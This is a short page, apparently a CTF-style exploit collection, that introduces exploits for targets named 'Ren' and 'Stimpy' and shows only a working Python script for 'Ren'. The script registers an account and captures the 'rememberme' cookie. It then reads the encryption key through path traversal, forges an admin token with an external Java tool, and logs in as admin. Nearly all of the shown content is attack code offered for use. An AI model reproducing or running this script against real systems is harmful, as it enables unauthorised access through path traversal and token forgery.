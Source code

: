 here are the complete exploits for both Ren + Stimpy!

### exploit: Ren

goal: get admin access + execute RCE, using path traversal, token manipulation, and SQL injection.

```python
import requests
import time
import string
import subprocess
import base64
import random
import sys

# step 1: set up my IP and target URL
my_ip = sys.argv[1]  # attacker IP address is passed as an argument
target = 'http://<IP>'     # target application URL

# step 2: generate random username + email
username = ''.join(random.choice(string.ascii_lowercase) for c in range(3))
email = username + '@ren.local'  # email with the generated username

# step 3: initialize session and get main page
session = requests.Session()
session.get(target + '/')  # target's homepage

# step 4: create an account on the target application
session.post(target + '/signup', data={
    'submit': 'Submit',
    'email': email,
    'password': 'L0r3m1p$uM',
    'username': username
})

# step 5: log in and capture the 'rememberme' session token
session.post(target + '/login', data={
    'submit': 'Submit',
    'username': username,
    'password': 'L0r3m1p$uM',
    'rememberme': True  # remember me token is stored in the session
})
myuser_token = session.cookies.get_dict()["rememberme"]  # extract the rememberme token

# step 6: exploit path traversal vulnerability to retrieve UUID
uuid = session.get(target + '/download?id=..././conf/uuid').text  # UUID is the encryption key

# step 7: decrypt the token, modify it to escalate privileges, and re-encrypt
process = subprocess.Popen(['java', 'Tokenizer', myuser_token, email, 'admin@ren.local', uuid], stdout=subprocess.PIPE)
time.sleep(5)  # wait for subprocess to complete
out, err = process.communicate()

# step 8: if there's an error, print it and exit
if err:
    print(err)
    exit()

# step 9: retrieve the admin token from the output
tokenadmin = out.decode("UTF-8")

# step 10: log in as admin using the manipulated token
session.get(target + '/login', cookies={'rememberme': tokenadmin})

```
